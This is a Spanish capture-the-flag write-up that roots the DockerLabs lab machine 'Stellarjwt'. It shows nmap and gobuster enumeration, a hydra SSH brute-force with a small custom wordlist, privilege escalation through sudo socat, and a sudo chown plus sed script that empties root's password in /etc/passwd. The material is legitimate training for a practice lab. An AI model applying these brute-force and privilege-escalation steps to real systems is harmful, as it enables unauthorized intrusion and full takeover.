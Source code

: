 #MAQUINA #DOCKERLABS #FACIL 
#JWT 

<hr>

# RECONOCIMIENTO

Vamos a resolver **Stellarjwt** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 17:33 CET
Initiating ARP Ping Scan at 17:33
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 17:33, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:33
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 17:33, 0.48s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-10 17:33:06 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.69 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 17:33 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000018s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 13:fd:a1:b2:31:9d:ea:33:a1:43:af:44:20:3a:12:12 (ECDSA)
|_  256 a0:4f:c4:a9:00:af:cb:78:28:fd:94:c0:86:28:dc:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: NASA Hackeada
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.41 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 17:34 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds

```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.
## HTTP (80)

Usamos **gobuster** para enumerar:

   ```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              js,txt,png,jpg,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 1905]
/universe             (Status: 301) [Size: 311] [--> http://172.17.0.2/universe/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================

```

Si nos metemos en universe y hacemos Ctrl + u, encontramos un token:

Usuario -> **neptuno**

Al revisar la web que hay en el puerto 80, vemos que hay una pregunta en la principal:

   ```bash
¿Qué astrónomo alemán descubrió Neptuno?
   ```
   
Creamos un diccionario con esto:
   ```bash
johann
gottfried
galle
Johann
Gottfried
Galle
   ```

# EXPLOTACION

Usamos **hydra** para intentar sacar su contraseña:

   ```bash
hydra -l neptuno -P contras  ssh://172.17.0.2 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-10 17:40:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:1/p:6), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: neptuno   password: Gottfried
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-10 17:40:41

```
**usuario : neptuno**
**contraseña: Gottfried**

# ESCALADA PRIVILEGIOS

Buscamos archivos en el directorio personal y hay una **.carta_a_la_NASA.txt** :
   ```bash
Buenos días, quiero entrar en la NASA. Ya respondí las preguntas que me hicieron. Se las respondo de nuevo por aquí.

¿Qué significan las siglas NASA? -> National Aeronautics and Space Administration
¿En que año se fundo la NASA? -> 1958
¿Quién fundó la NASA? -> Eisenhower

Por favor, necesito entrar!!
```

Usuario -> **nasa** (/etc/passwd):**Eisenhower**

Buscamos archivos con permisos SUDO:
   ```bash
nasa@c455fb384540:/home/neptuno$ sudo -l
Matching Defaults entries for nasa on c455fb384540:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User nasa may run the following commands on c455fb384540:
    (elite) NOPASSWD: /usr/bin/socat

```
Vemos **socat** con permisos SUDO :
   ```bash
nasa@c455fb384540:/home/neptuno$ sudo -u elite socat stdin exec:/bin/sh
2024/12/11 17:06:24 socat[146] W address is opened in read-write mode but only supports read-only
whoami
elite
```

YA ESTAMOS COMO ELITE.

Buscamos archivos con permisos SUDO:
   ```bash
sudo -l
Matching Defaults entries for elite on c455fb384540:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User elite may run the following commands on c455fb384540:
    (root) NOPASSWD: /usr/bin/chown

```

Vemos **chown** con permisos SUDO , cambiamos propietario a **/etc/passwd** y a **/etc** y ejecutamos script para quitarle la necesidad de ingresar contraseña al hacer **su root** :

   ```bash
   
sudo chown elite:elite /etc
sudo chown elite:elite /etc/passwd
cat script.sh 
#!/bin/sh

# Definir las variables
var1="root:x:0:0:root:/root:/bin/bash"
var2="root::0:0:root:/root:/bin/bash"

# Realizar la sustitución y escribir el resultado en un archivo temporal
sed "s#$var1#$var2#" /etc/passwd > passwd_tmp

# Reemplazar el archivo original con el archivo temporal
mv passwd_tmp /etc/passwd

nasa@c455fb384540:/home/neptuno$ su root
root@c455fb384540:/home/neptuno# whoami
root
root@c455fb384540:/home/neptuno#

```

**YA ESTAMOS COMO ROOT.**